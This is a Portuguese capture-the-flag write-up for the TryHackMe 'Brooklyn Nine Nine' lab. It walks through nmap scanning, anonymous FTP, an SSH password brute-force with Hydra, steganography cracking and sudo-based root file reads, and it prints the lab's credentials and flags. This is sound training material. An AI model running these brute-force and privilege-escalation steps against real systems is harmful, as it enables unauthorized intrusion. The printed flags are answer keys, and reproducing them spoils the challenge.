


# Brooklyn Nine Nine - TryHackMe  
**Dificuldade:** Fácil  
**Data:** 12/08/2025  

---

> **Aviso importante:**  
> Este write-up refere-se a um laboratório público disponível no TryHackMe. Todo o conteúdo aqui é destinado a fins educacionais e de aprendizado em segurança da informação.  

**Laboratório disponível em:** https://tryhackme.com/room/brooklynninenine

---

Neste CTF existem **duas rotas** para completar o desafio:

- rota A: utilizando o usuário **jake**  
- rota B: utilizando o usuário **holt**

Abaixo estão os passos detalhados para **ambas** as rotas, com explicações dos comandos e conceitos.

## Rota A — Usuário **jake**

### 1. Enumeração inicial (Nmap)

Comando usado:

```bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -T5 -sV -sC -Pn 10.201.71.101
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-12 09:08 -03
Nmap scan report for 10.201.71.101
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.3.98
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.01 seconds
```
Parâmetros Utilizados:

- `-T5`: modo rápido de scan  
- `-sC`: scripts padrão do Nmap  
- `-sV`: detecção de versão dos serviços  
- `-Pn`: desabilita ping, assume host ativo

Resultado relevante (reduzido):

**21/tcp open ftp vsftpd 3.0.3** — FTP com login anônimo disponível (**ftp-anon**).

**22/tcp open ssh OpenSSH 7.6p1** — SSH.

**80/tcp open http Apache 2.4.29** — Servidor web.

> Observação: o script **ftp-anon** já indicou que podemos conectar via FTP sem credenciais (anonymous).


### 2. Acesso FTP anônimo (enumeração de arquivos)

Conectar ao FTP:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ftp 10.201.71.
Name (10.201.71.101:kali): anonymous
Password: 
230 Login successful.
ftp>
```
Comandos úteis no cliente FTP interativo:

- `ls` : lista arquivos no diretório atual do servidor.

- `get nome_arquivo` : baixa um arquivo para sua máquina local.

- `more nome_arquivo` : visualiza conteúdo (se disponível no cliente).

No lab havia o arquivo `note_to_jake.txt`. Conteúdo (relevante):
```bash
ftp> ls
229 Entering Extended Passive Mode (|||46298|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> more note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone h
acks into the nine nine
```
**Interpretação**: há uma indicação de que a senha do usuário `jake` é fraca — sugestão clara para tentar brute force no SSH.

### 3. Brute-force SSH com Hydra

Comando usado:

```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.201.71.
```
Parâmetros principais:

- `-l jake` : usuário alvo.

- `-P /usr/share/wordlists/rockyou.txt` : wordlist de senhas (rockyou).

- `ssh://10.201.71.101` : alvo e protocolo.


**Resultado encontrado:**

```bash
[22][ssh] host: 10.201.71.101   login: jake   password: 987654321
```
Credenciais válidas: `jake:987654321`

### 4. Acesso e busca pela flag user.txt

Após login via SSH:

```bash
ssh jake@10.201.71.101
```

Procuramos a flag com find:

```bash
jake@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null
/home/holt/user.txt

jake@brookly_nine_nine:~$ cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```
**Explicação do comando** `find`:

`/` : começa a busca na raiz do sistema.

`-type f` : apenas arquivos (não diretórios).

`-name user.txt` : procura por arquivo com nome exato user.txt.

`2>/dev/null` : descarta mensagens de erro (permissões negadas, etc.).

**User Flag**: `ee11cbb19052e40b07aac0ca060c23ee`

### 5. Verificando sudo e leitura do root.txt

Listamos o que o usuário pode executar com `sudo`:

```bash
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

**O que significa:**

`NOPASSWD` — permite executar o comando sem senha.

`less` está disponível para execução como root — logo podemos ler arquivos de root usando `sudo less /root/root.txt.`

Executando:
```bash
jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt
```

Isso abre o arquivo com privilégios de root e permite ler a flag:
```bash
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
/root/root.txt (END)
```
**Root Flag:** `63a9f0ea7bb98050796b649e85481845`

---

## Rota B — Usuário **holt**

A rota do `holt` explora esteganografia na página web.

### 1. Observando a página Web

Ao abrir o site na porta 80 há apenas uma imagem grande. No código-fonte há um comentário indicando esteganografia — técnica de esconder informação dentro de imagens/arquivos.




### 2. Baixando a imagem e tentando extrair (steghide)



Ferramenta: `steghide` (extrai dados ocultos em imagens com passphrase).

```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# steghide extract -sf brooklyn99.jpg
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Se a imagem estiver protegida por senha, o steghide não conseguirá extrair sem a passphrase.

### 3. Quebrando a passphrase (stegcracker)

Usamos o stegcracker para bruteforce com a wordlist rockyou:

```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2025 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20523 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

O que faz:

Tenta senhas da wordlist para abrir o conteúdo oculto pela imagem.

Quando `stegcracker` acha a senha, ela pode ser usada com steghide.

**Resultado**: senha encontrada = `admin`.

### 4. Extrair o arquivo oculto e ler credenciais

Extração com a senha obtida:

```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# steghide extract -sf brooklyn99.jpg                        
Enter passphrase: admin
wrote extracted data to "note.txt".

┌──(root㉿kali)-[/home/kali/Downloads]
└─# cat note.txt 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Agora temos credenciais: `holt:fluffydog12@ninenine`

### 5. Acesso SSH com Holt e leitura do user.txt

```bash
ssh holt@10.201.71.101
```

No home do usuário holt havia o user.txt:

```bash
holt@brookly_nine_nine:~$ ls -la
total 48
drwxr-xr-x 6 holt holt 4096 May 26  2020 .
drwxr-xr-x 5 root root 4096 May 18  2020 ..
-rw------- 1 holt holt   26 Aug 12 12:29 .bash_history
-rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
-rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
drwx------ 2 holt holt 4096 May 18  2020 .cache
drwx------ 3 holt holt 4096 May 18  2020 .gnupg
drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
-rw-r--r-- 1 holt holt  807 May 17  2020 .profile
drwx------ 2 holt holt 4096 May 18  2020 .ssh
-rw------- 1 root root  110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
holt@brookly_nine_nine:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

**User flag (novamente)**: `ee11cbb19052e40b07aac0ca060c23ee`

### 6. Permissões sudo e leitura do root.txt com nano

Verificando sudo -l:

```bash
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

**Significado:** `holt` pode executar `nano` como root sem senha. Com `sudo nano /root/root.txt` conseguimos abrir o arquivo e ler a flag:

```bash
holt@brookly_nine_nine:~$ sudo nano /root/root.txt

-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
**Root flag (novamente):** `63a9f0ea7bb98050796b649e85481845`

<div align="center"> <h2>CTF CONCLUÍDO! 🚩🏆</h2> </div>